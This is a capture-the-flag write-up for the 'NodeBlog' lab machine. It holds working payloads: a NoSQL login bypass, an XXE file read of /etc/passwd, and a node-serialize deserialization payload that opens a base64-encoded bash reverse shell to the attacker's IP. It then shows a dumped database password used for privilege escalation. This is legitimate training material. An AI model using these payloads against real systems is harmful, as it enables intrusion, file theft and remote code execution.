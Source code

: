 ```yaml
---
description: H
---
```


# NodeBlog

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.160
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-08 07:30 EST
Nmap scan report for 10.129.96.160
Host is up (0.013s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

### NoSQL Login Bypass

This was a UHC qualifier box in 2021.

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

There was a login functionality there. I tested some SQL Injection but to no avail. Because this was a UHC box, this was probably the way in. I tested some NoSQL injection and it worked in bypassing it!

```http
POST /login HTTP/1.1
Host: 10.129.96.160:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 56
Origin: http://10.129.96.160:5000
Connection: close
Referer: http://10.129.96.160:5000/login
Upgrade-Insecure-Requests: 1

{
"user": "admin",
"password": {"$ne": "admin"}

}
```

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### XXE Injection

All of the functions do nothing much, except for the Upload one. When trying to upload something, I get this error:

```
Invalid XML Example: Example DescriptionExample Markdown
```

This indidates that we have to upload a malicious XML file to achieve XXE injection for our reverse shell. Taking a look at the POST request in Burpsuite reveals that we need this format:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

I headed to PayloadAllTheThings to try some XXE injection payloads, and it worked rather well:

```markup
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
        <title>mypost</title>
        <description>testfile</description>
        <markdown>&file;</markdown>
</post>
```

Then we can save this into a file and upload it. The output would be printed in the `markdown` area:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Earlier while testing my NoSQL injections, I did run across an error like this:

<figure><img src="../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

So the source code files are in `/opt/blog`. A bit more testing revealed the main file to be `server.js`.

```javascript
const express = require(&#39;express&#39;)
const mongoose = require(&#39;mongoose&#39;)
const Article = require(&#39;./models/article&#39;)
const articleRouter = require(&#39;./routes/articles&#39;)
const loginRouter = require(&#39;./routes/login&#39;)
const serialize = require(&#39;node-serialize&#39;)
const methodOverride = require(&#39;method-override&#39;)
const fileUpload = require(&#39;express-fileupload&#39;)
const cookieParser = require(&#39;cookie-parser&#39;);
const crypto = require(&#39;crypto&#39;)
const cookie_secret = &#34;UHC-SecretCookie&#34;
//var session = require(&#39;express-session&#39;);
const app = express()

mongoose.connect(&#39;mongodb://localhost/blog&#39;)

app.set(&#39;view engine&#39;, &#39;ejs&#39;)
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride(&#39;_method&#39;))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: &#34;UHC-SecretKey-123&#34;}));

function authenticated(c) {
    if (typeof c == &#39;undefined&#39;)
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash(&#39;md5&#39;).update(cookie_secret + c.user).digest(&#39;hex&#39;)) ){
        return true
    } else {
        return false
    }
}


app.get(&#39;/&#39;, async (req, res) =&gt; {
    const articles = await Article.find().sort({
        createdAt: &#39;desc&#39;
    })
    res.render(&#39;articles/index&#39;, { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use(&#39;/articles&#39;, articleRouter)
app.use(&#39;/login&#39;, loginRouter)


app.listen(5000)
```

First thing I notice is that **there is unserialisation going on**. This web application must be vulnerable to RCE through Deserialisation. This article showed up when I searched for this exploit:

{% embed url="https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/" %}

I tested the token given there and it worked: (after URL encoding)

```
%7B%22rce%22%3A%22_%24%24ND_FUNC%24%24_function%28%29%7Brequire%28%27child_process%27%29.exec%28%27ping%20-c%201%2010.10.14.39%27%2C%20function%28error%2C%20stdout%2C%20stderr%29%7Bconsole.log%28stdout%29%7D%29%3B%7D%28%29%22%7D%0A
```

Now, we can replace the `ping` command I used above with a reverse shell:

```bash
%7B%22rce%22%3A%22_%24%24ND_FUNC%24%24_function%28%29%7Brequire%28%27child_process%27%29.exec%28%27echo%20%5C%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4zOS84ODg4IDA%2BJjEK%5C%22%20%7C%20base64%20-d%20%7C%20bash%27%2C%20function%28error%2C%20stdout%2C%20stderr%29%7Bconsole.log%28stdout%29%7D%29%3B%7D%28%29%22%7D%0A
```

This uses base64 to encode the shell one-liner and connect to port 8888.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

When trying to read the user flag, I found out that we did not have access to our own home directory. This was because of the permissions set:

```
admin@nodeblog:/home$ ls -la
ls -la
total 16
drwxr-xr-x 1 root  root   10 Dec 27  2021 .
drwxr-xr-x 1 root  root  180 Dec 27  2021 ..
drw-r--r-- 1 admin admin 220 Jan  3  2022 admin
```

We can correct this with `chmod 777 admin`.

## Privilege Escalation

I ran a LinPEAS scan on this machine and found the `mongoDB` credentials file.

```
mongodb      802  0.3  1.8 981772 76124 ?        Ssl  16:38   0:08 /usr/bin/mongod --unixSocketPrefix=/run/mongodb --config /etc/mongodb.conf
```

Earlier we used NoSQL injection to access this, and perhaps we can find the actual credentials for the `admin` user (so that I can check `sudo` privleges). Some DBs and collections can be found here.

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

I could find a password from the users collections.

{% code overflow="wrap" %}
```
>  db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```
{% endcode %}

We can use this to check `sudo` privileges and find an easy root path:

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
